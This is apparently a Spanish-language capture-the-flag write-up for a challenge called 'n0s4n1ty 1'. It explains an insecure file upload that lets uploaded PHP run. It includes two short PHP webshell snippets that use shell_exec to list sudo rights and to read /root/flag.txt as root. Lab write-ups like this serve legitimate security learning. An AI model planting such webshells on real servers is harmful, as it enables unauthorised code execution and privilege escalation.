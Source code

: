 # n0s4n1ty 1

## Detalles Máquina
- **H1.** La máquina permite subir todo tipo de archivos en la plataforma web
- **H2.** Los archivos se suben a la ruta `/uploads/{nombre_archivo}`
- **H3.** Es posible subir un archivo PHP y "ejecutarlo" al momento de acceder a la ruta del archivo subido
- **H4.** Se puede ejecutar una shell para listar los privilegios de sudo que tiene el usuario actual.
- **H5.** El usuario contiene el siguiente permiso `(ALL) NOPASSWD: ALL` lo que basicamente indica que puede ejecutar cualquier comando asumiendo cualquier identidad sin que el sistema pida contraseña
- **H6** con Sudo se puede conseguir una shell de root y leer cualquier tipo de archivo

## Comandos útiles 

Código Usado para observar los permisos del usuario (H4)
```php
<?php
$output =  shell_exec('sudo -l');
echo "<pre>$output</pre>";
?>
```

Código Usado para obtener el Flag (H6)
```php
<?php
$output =  shell_exec('sudo cat /root/flag.txt');
echo "<pre>$output</pre>";
?>
```

## Tags
- Web Exploitation
- WebShell
- PHP
- Escalación de privilegios
- Path
- Insecure File Upload
- Remote Code Execution (RCE)